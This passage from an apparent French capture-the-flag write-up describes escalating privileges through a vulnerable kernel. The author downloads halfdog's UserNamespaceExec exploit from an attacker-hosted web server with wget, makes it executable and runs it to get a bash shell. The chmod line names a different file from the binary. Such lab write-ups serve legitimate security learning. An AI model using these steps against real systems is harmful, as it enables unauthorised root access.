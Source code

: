 2ème flag:

![image-20210325235317154](khennou.assets/image-20210325235317154.png)





Surprise:

En récupérant la version du kernel et en faisant un searchsploit on voit qu'elle est vulnérable.

![image-20210326160337182](khennou.assets/image-20210326160337182.png)

![image-20210326161141971](khennou.assets/image-20210326161141971.png)

La cve nous renvois vers le script suivant:

www.halfdog.net/Misc/Utils/UserNamespaceExec.c

Compiler le code c

> gcc UserNamespaceExec.c -o UserNamespaceExec

![image-20210326163713912](khennou.assets/image-20210326163713912.png)

On ouvre un server web afin de récupérer le script sur la machine distante

> wget 192.168.52.128:8000/UserNamespaceExec

![image-20210326164835851](khennou.assets/image-20210326164835851.png)

> chmod +x UserNamespace

Rendre le script exécutable

![image-20210326165659822](khennou.assets/image-20210326165659822.png)

> ./UserNamespaceExec -- /bin/bash

![image-20210326165929574](khennou.assets/image-20210326165929574.png)